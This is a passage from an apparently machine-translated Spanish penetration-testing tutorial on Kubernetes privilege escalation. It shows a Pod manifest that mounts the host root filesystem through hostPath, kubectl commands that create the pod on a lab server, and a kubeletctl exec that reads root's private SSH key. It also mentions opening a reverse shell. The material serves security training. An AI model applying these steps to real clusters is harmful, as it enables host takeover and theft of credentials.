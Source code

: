 Aquí podemos ver algunas información muy importante. Además de los recursos de autosubjetos podemos`get`, `create`, y`list`Pods que son los recursos que representan el contenedor en ejecución en el clúster. De aquí en adelante, podemos crear un`YAML`Archivo que podemos usar para crear un nuevo contenedor y montar todo el sistema de archivos raíz desde el sistema de host en este contenedor`/root`directorio. A partir de ahí, podríamos acceder a los archivos y directorios de sistemas host. El`YAML`El archivo podría parecer seguir:

#### Pod yaml

Código:yaml

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Una vez creado, ahora podemos crear el nuevo POD y verificar si se está ejecutando como se esperaba.

#### Creando una nueva vaina

  Kubernetes

```shell-session
cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml

pod/privesc created


cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods

NAME	READY	STATUS	RESTARTS	AGE
nginx	1/1		Running	0			23m
privesc	1/1		Running	0			12s
```

Si el POD se está ejecutando, podemos ejecutar el comando y podríamos generar un shell inverso o recuperar datos confidenciales como la tecla SSH privada del usuario raíz.

#### Extraer la tecla SSH de Root

  Kubernetes

```shell-session
cry0l1t3@k8:~$ kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc

-----BEGIN OPENSSH PRIVATE KEY-----
...SNIP...
```
